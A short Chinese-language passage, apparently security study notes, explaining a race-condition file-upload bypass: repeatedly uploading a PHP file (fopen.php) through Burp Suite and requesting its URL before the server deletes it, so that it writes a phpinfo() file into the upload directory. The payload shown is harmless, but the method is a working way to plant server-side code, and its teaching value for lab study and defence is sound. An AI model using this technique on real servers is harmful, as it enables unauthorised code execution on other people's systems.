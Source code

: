 

从文件复制完成到判断后缀类型，再到删除文件，中间需要一段时间（虽然对于计算机来说很短），只需要不断的上传文件，不断的访问我们上传的文件，总有一次能访问到。



首先准备需要上传的文件：fopen.php

```php
<?php

    $php = "<?php\nphpinfo();\n?>";
    $path = dirname(__FILE__) . "\..\upload\phpinfo.php";

    $file = fopen($path,'w');

    fwrite($file,$php);

    fclose($file);

    echo "fopen write success";

?>
```



一边上传fopen.php文件 ，一边访问这个文件的url，只要访问成功了就会将phpinfo的代码写入到phinfo.php文件中。

burp suite中上传文件

![image-20241009094622140](./images/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.assets/image-20241009094622140.png)
